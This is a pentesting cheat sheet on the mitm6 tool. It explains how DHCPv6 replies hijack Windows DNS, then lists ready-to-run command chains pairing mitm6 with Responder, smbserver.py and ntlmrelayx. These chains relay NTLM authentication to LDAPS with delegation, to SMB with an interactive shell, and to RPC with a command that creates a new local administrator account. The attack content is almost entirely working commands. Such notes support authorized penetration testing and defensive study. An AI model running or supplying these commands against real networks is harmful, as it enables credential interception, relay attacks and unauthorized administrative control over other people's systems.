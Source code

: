 # Mitm6 
## Resources
1. https://cheatsheet.haax.fr/windows-systems/exploitation/ipv6/
2. https://github.com/fox-it/mitm6
3. https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/
4. https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/
5. https://systemadminspro.com/domain-attacks-getting-an-account/
6. https://hausec.com/2019/03/05/penetration-testing-active-directory-part-i/
7. https://blog.vonahi.io/taking-over-ipv6-networks/
8. https://intrinium.com/mitm6-pen-testing/

mitm6 is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server. It does this by replying to DHCPv6 messages, providing victims with a link-local IPv6 address and setting the attackers host as default DNS server

When using mitm6, it issues a DHCPv6 lease to clients that last for a period of 300 seconds (or 5 minutes) Due to this, it's possible that several DNS queries will actually fail, resulting in clients not being able to access services that rely on DNS names. You can, however, change this in the source code.

## Gonna create a fake DNS server for targets
```
sudo mitm6 -d lab.local
```

# Using with SMB server 
## First shell
```
sudo mitm6 -i eth0
```
## Second shell
```
smbserver.py SHARE_NAME path/to/share
```
# Using with Responder 
## First shell
```
sudo mitm6 -i eth0
```
## Second shell
```
responder -I eth0 -wFv
```
# Using with ntlmrelayx 
## First attacking shell
```
sudo mitm6 -hw icorp-w10 -d internal.corp --ignore-nofqnd
```
## Second attacking shell
```
ntlmrelayx.py -t ldaps://icorp-dc.internal.corp -wh attacker-wpad --delegate-access
```
  - wh == server hosting WPAD (attacking IP)
  - t == target for relay
  - i == open interactive shell

```
ntlmrelayx.py -wh 192.168.218.129 -t smb://192.168.218.128/ -i
```
## Or
$ ntlmrelayx.py -ip 0.0.0.0 -t rpc://example.local -c "net user xuser xpass /add && net localgroup Administrators xuser /add"

